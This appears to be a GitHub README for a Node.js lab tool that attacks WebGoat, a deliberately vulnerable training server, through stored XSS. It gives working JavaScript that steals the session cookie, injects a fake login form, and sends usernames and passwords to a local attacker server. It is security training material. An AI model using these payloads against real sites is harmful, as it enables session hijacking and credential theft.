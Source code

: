 # webGoatHack
A small node.js app for exercising with WebGoat 7.0

# WebGoat
WebGoat is a special web server application for training various security attacks. To read more what is it and how to install it proceed to the [link](https://github.com/WebGoat/WebGoat/)

# Hack App install and run
Please, clone the repo to you computer and then install node dependencies by executing
```
npm install
```
To ran hack application type 
```
npm start
```
The application will starts at `http://localhost:3000/`

# How to perform attack
1. Go to the lesson "Stored XSS" in `Webgoat` Put into the title of the comment this content:
```HTML
Cool site <script src='http://localhost:3000/backdoor.js'></script>
```
2. Run hacking application with `npm start`
3. Open the lesson again. Login into the system. 
4. Open "Stolen information page" via link `http://localhost:3000/outcome`

# Explanation 
The aim of the attack is to get users's `session ID`, `username` and `password`. 

As web server for providing malicious code we use Express application (Express is a popular javascript framework for building web applications)

We came with two level approach because we want to perform attack once per user session and in the same time hide the mechanism of attack from the victim. 
## First level. Script `backdoor.js`
```JavaScript
var fishing = document.createElement('script')
var cookie = goatRouter.lessonController.cookieView.collection.findWhere({name:'JSESSIONID'}).attributes
fishing.setAttribute('src','http://localhost:3000/fishing.js?session='+cookie.value);
document.body.appendChild(fishing);
```
This script only collects the `JSESSIONID` cookie and sends it as GET parameter. Since the cookies are set to be `HTTP-only` one can't read them directly from `document.cookie` object. So, we read it from `goatRouter` Backbone application (Backbone is a popular front-end javascript framework which is used in `WebGoat`)

On a server this request is processed by the code:
```JavaScript
app.get('/fishing.js',function(req, res, next){
  if (req.query.session) {
    if (typeof stolenInformation[req.query.session] === 'undefined') {
      res.sendFile(path.resolve('hacks/fishing.js'));
    } else {
      res.send('console.log("Already")');
    }
  }
});
```
We use session value as a key for the `stolenInformation` object. If this property is undefined we send file `fishing.js` which performs phishing attacks. Defined property means that we already performed attack for this session value, so we skip to send malicious code.

## Second level. Script `fishing.js`
This script actually performs attack and sends confidential data to our server. Important note that we don't redirect the user to some other page in the internet, he fills login form staying on the original site (and seeing its url in his browser address field possibly with valid `HTTPS` certificate information).
```JavaScript
var worm = document.createElement('script')
var cookie = goatRouter.lessonController.cookieView.collection.findWhere({name:'JSESSIONID'}).attributes
var stolenInformation = {};
var bodyBackup;
//
// Open GET request for index page 
$.ajax({
    url:'/WebGoat',
    success: function(data){
        // replace content of body tag with index page login form
        $('body').html(data);
        
        // set a handler for submit button
        $('form').find('button').click(function(e){
            
            // prevent login
            e.preventDefault();
            
            // collect username and password from inputs
            $('.form-control').each(function(item){
                stolenInformation[this.name] = this.value;
            })
            stolenInformation.session = cookie.value;
            
            // send stolenInformation to the server as GET parameters
            worm.setAttribute('src','http://localhost:3000/final.js?'
                +'session='+stolenInformation.session
                +'&username='+stolenInformation.username
                +'&password='+stolenInformation.password);
            document.body.appendChild(worm);
            
            // reload the page
            window.location.reload();

        })
    }
});
```
We save stolen information on a server with a script:
```JavaScript
app.get('/final.js',function(req, res, next){
  if (req.query.session) {
    if (typeof stolenInformation[req.query.session] === 'undefined') {
      stolenInformation[req.query.session] = {
        session: req.query.session,
        username: req.query.username,
        password: req.query.password
      }
      res.send('console.log('hacked')');
    }
  }
});
```
`stolenInformation` object is stored inside of hack application and can be used whatever we what. 




